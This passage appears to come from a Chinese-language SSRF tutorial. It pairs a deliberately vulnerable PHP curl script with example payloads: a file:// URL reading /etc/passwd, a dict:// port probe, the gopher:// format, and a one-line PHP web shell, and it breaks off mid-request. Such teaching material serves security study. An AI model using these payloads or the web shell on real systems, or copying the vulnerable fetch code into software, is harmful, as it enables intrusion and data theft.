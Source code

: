 ``` php
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
```

## curl_exec()
``` php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);

    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
```
# SSRF的利用
SSRF主要是通过利用各种协议来达到获取数据甚至Getshell的目的，主要利用的是file,dict,gopher三个协议。(dict,gopher需要安装有curl)
## file协议的利用
file协议可以读取文件的内容,用法类似于下:
```
http://****.****/ssrf.php?url=file:///etc/passwd
```
## dict协议的利用
dict协议可以探测端口是否开启，探测端口信息，用法如下:
```
http://****.****/ssrf.php?url=dict://127.0.0.1:2000/info
```
## gopher协议的利用
gopher协议可以说是SSRF里面功能最强的协议了。主要利用方式有对Mysql的利用(ssrf + mysql无密码),对未授权Redis的利用和POST getshell等。前面两种涉及到了Redis,这个我目前还没学习到，所以提一下最后一种即可。  
```
gopher基本协议格式：URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
```
举一个简单的例子:
一个只能 127.0.0.1 访问的 exp.php，内容为：
``` php
<?php system($_POST[e]);?>
```
发送的表包:
```
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
```